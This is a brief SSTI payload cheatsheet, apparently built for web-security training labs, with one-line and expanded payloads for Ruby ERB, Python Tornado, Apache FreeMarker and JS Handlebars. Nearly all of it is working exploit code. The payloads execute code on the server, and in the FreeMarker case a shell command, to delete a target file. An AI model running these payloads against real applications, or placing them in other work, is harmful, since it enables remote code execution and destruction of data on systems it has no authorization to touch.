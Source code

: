 [Cheatsheet](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti)
# Ruby ERB
[ERB Security Chapter](https://docs.ruby-lang.org/en/2.3.0/security_rdoc.html)
```
<%=File.delete('/home/carlos/morale.txt');%>
```
# Python Tornado
```
user.first_name}}{{1;import+os;os.remove('/home/carlos/morale.txt');print('gg')}}
```
# Apache FreeMarker
```
<#assign ex="freemarker.template.utility.Execute"?new()> ${ex("rm /home/carlos/morale.txt")}
```
# JS Handlebars
```
{{#with "hola" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "fs.unlinkSync('/home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```
```
{{#with "hola" as |string|}}{{#with "e"}}{{#with split as |conslist|}}{{this.pop}}{{this.push (lookup string.sub "constructor")}}{{this.pop}}{{#with string.split as |codelist|}}{{this.pop}}{{this.push "fs.unlinkSync('/home/carlos/morale.txt');"}}{{this.pop}}{{#each conslist}}{{#with (string.sub.apply 0 codelist)}}{{this}}{{/with}}{{/each}}{{/with}}{{/with}}{{/with}}{{/with}}
```

